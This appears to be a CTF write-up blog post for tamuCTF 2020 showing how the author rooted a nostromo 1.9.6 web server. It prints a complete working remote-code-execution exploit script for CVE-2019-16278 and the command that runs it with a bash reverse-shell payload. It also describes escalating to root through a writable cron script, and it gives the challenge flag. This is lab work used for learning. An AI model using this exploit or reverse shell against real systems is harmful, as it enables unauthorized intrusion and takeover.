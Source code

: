 ```yaml
---
layout: blogpost
title:  "tamuCTF - Rooting Nostromo 1.9.6" 
date:   2020-03-23 03:32:01 -0300
categories: ctf
---
```


## Category: 
Network/Pentest
## Difficulty: 
Medium-Hard
## Challenge: 
My First Blog
## Description: 
Here is a link to my new blog!  I read about a bunch of exploits in common server side blog tools so I just decided to make my website static.  Hopefully that should keep it secure. The flag is in a folder only readable by root!
<br>
## Solution:

First things first I ran an nmap scan on the server to figure out what webserver the box was running
<br>
```console
Nmap 7.80 scan initiated Fri Mar 20 19:29:57 2020 as: nmap -sV -sC -oN myblog 172.30.0.2
Nmap scan report for 172.30.0.2
Host is up (0.080s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
MAC Address: 02:42:7D:36:C6:F0 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done at Fri Mar 20 19:30:13 2020 -- 1 IP address (1 host up) scanned in 16.32 seconds
```
<br>We can see that its running a nostromo 1.9.6 server. Getting the initial shell was quite easy having rooted a hackthebox machine with the same web server and version. Theres a vulnerability which lets you send a malicious post request that executes any code you want on the machine. We can find an exploit crafted for this by running
<br>

```console 
root@kali: searchsploit nostromo

nostromo 1.9.6 - Remote Code Execution  - exploits/multiple/remote/47837.py
```
<br>
Now that we know theres a RCE in this specific web server, we can run our exploit. I ran this command where exploit.py is the script included below, while running a netcat listener on my local machine and got a reverse shell once the request finished. 
<br>
```bash
python exploit.py 172.30.0.2 80 'bash -i >& /dev/tcp/my_ip/9000 0>&1'
```
<br>
```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    
"""

help_menu = '\r\nUsage: cve2019-16278.py <Target_IP> <Target_Port> <Command>'

def connect(soc):
    response = ""
    try:
        while True:
            connection = soc.recv(1024)
            if len(connection) == 0:
                break
            response += connection
            
    except:
        pass
    return response

def cve(target, port, cmd):
    soc = socket.socket()
    soc.connect((target, int(port)))
    payload = 'POST /.%0d./.%0d./.%0d./.%0d./bin/bash HTTP/1.0\r\nContent-Length: 1\r\n\r\necho\necho\n{} 2>&1'.format(cmd)
    soc.send(payload)
    receive = connect(soc)
    print(receive)

if __name__ == "__main__":

    print(art)
    
    try:
        target = sys.argv[1]
        port = sys.argv[2]
        cmd = sys.argv[3]

        cve(target, port, cmd)
   
    except IndexError:
        print(help_menu)
```
<br>Now that we have our low privlege shell, we need to probe the system and try to escalate our privleges. When we get onto the system I noticed that we were in /bin, so I looked around the directory and noticed that /bin/pidof was symlinked to /sbin/killall5 with other execute privleges... This could prove to be useful. I then checked for processes running as root to get an idea for where our privesc may lie, and got the processes
<br>
```console
bash /tmp/start.sh
cron
sleep 1000000
```
<br>After taking a look at the start.sh script I saw that the system will run the webserver, cron, and then sleep for 1 million seconds. Next I took a look at the crontab and realized where the privesc would be. The system runs /usr/bin/healthcheck every minute as root which would be fine... unless group and other were able to modify that file...
<br>

![crontab_output](/assets/images/ctf/tamu2020/1st_blog_crontab.png)
<br>We modify /usr/bin/healthcheck locally to run a reverse shell, host it on a webserver and put the modified version onto the system and then kill the sleep processes which should run the cronjob again instantly, and within moments we have our root shell! 

![root_shell  ](/assets/images/ctf/tamu2020/1st_blog_exploit_sucess.PNG)

The flag is in /root/flag.txt which we can now print and we get gigem{l1m17_y0ur_p3rm15510n5}